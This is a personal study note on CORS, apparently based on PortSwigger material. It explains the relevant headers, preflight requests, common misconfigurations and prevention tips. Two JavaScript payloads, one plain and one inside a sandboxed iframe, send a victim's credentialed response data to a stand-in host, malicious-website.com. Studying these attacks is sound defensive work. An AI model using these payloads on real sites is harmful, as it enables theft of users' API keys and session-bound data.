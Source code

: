 
### General Notes

Browser mechanism that enables controlled access to resources located outside of a domain, and adds flexibility to [[Same Origin Policy (SOP)]].
- The CORS [[Protocol]] uses [[HTTP#Header]]s that define trusted origins, and properties for each with given [[Authentication]] and [[Access Control]] permissions.
- These headers are used between the browser and the web site located in a different origin. (cross-origin).

CORS relaxes the [[Same Origin Policy (SOP)]] for [[HTTP]] requests between websites with different domains through the use of HTTP headers.

> CORS doesn't protect against [[Cross Site Request Forgery (CSRF)]].

---

### `Access-Control-Allow-Origin` (ACAO) response header

This header is returned by a server when a website requests resources across domains with the `Origin` header.
- The browser compares values in this header with the requesting web `Origin` header and gives permissions.

The `Access-Control-Allow-Origin` header can have values of:
* Multiple origins. (No browser supports this).
* `null`
* `*`

###### Transferring Cookies, Certificates, and Credentials

CORS allows for sharing credentials or authorization [[Cookies]] through the response header `Access-Control-Allow-Credentials` (ACAC).
- If it is set to true in the response, then the cookies being sent in the request will be allowed to be read.

 >Using the header `Access-Control-Allow-Origin` set to the value `*` cannot be combined with `Access-Control-Allow-Credentials` set to `true`.

###### Pre-Flight Checks


When a cross-domain request uses a non standard [[HTTP]] method or headers, this request is preceded by one with the `OPTIONS` method, and an initial check is made regarding the permitted methods and headers.
- The server returns allowed methods and the trusted origin.
- A cross-domain request will be first preceded by `OPTIONS` request with the method and headers used of this request.
- The server responds with the allowed origin, the allowed methods, the allowed verbs, and the caching time of the preflight response.

> Used to protect legacy resources.

---

### CORS Vulnerabilities

Some applications simply read the `origin` header from the incoming request, and then respond with the ACAO header set to the value in that `origin` header.
- They can also respond with the ACAC header to allow including [[Cookies]].

- If a [[Cross Site Request Forgery (CSRF)]] token or [[Application Programming Interface (API)]] key is included in the response, use this payload.
```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

###### Error parsing Origin headers

Supporting multiple origins usually works by having a whitelist.
- A request with the origin header has its value compared against whitelist, if it is found, then the ACAO header is added to the response.

This matching with the whitelist can be played around by appending to the end or the beginning, or by using regular expressions.
* The beginning by testing if it allows all subdomains.
* To the end if it simply checks the required origin is present.

> Sometimes the value `null` is whitelisted.

Browsers can send `null` in the origin header in:
* Cross-origin redirects.
* Requests from serialized data.
* Requests using `file:` [[Protocol]].
* Sandboxed cross-origin requests.

If the server responds with ACAO with value `null`, then we can bypass it by generating a cross-origin request containing `null` in the origin header satisfying the whitelist.

- Adding the payload we have in an `iframe` sandbox will appear as if it is coming from the null origin.
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
}; </script>">
</iframe>
```

###### Exploiting [[Cross Site Scripting (XSS)]] via CORS

If a website trusts an origin that is vulnerable to [[Cross Site Scripting (XSS)]], attacker can inject JavaScript that uses CORS.

- Given the following request:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

- If the server responds with:
```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

- Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
> `cors-stuff` is the CORS payload that issues a request above. [[Cross-Origin Resource Sharing (CORS)#CORS Vulnerabilities]].

###### Breaking [[Transport Layer Security (TLS)]]

Application that has [[HTTPS]] whitelists a subdomain using [[HTTP]].
- Attackers that can intercept traffic between these two locations can compromise the victims interaction with the application.

> Methodology: [(TLS)](https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors).

---
### Preventing CORS

* Proper configuration of cross-originr requests with the properly specified ACAO headers.
* Only allow truster websites with the hedaers.
* Avoid whitelisting the `null` value in the ACAO header.
* Avoid wildcards in internal networks. (`*`).
* Not a replacement for server-side protection.

---
